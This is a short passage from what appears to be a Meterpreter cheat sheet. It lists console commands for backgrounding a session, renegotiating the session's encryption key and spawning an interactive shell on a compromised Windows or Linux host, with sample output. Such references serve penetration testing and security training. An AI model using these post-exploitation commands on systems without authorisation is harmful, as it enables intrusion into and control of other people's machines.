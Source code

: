 ## 1.7 - Background

```
meterpreter > background
[*] Backgrounding session 1...
```

## 1.8 - Re-encrypt key

* **(Re)negotiate TLV packets for encryption**

```
meterpreter > secure
[*] Negotiating new encryption key ...
[+] Done.
```

## 1.9 - Spawn Interactive Shell

* **Windows**

`meterpreter > shell`

* **Linux**

`meterpreter > shell -t`
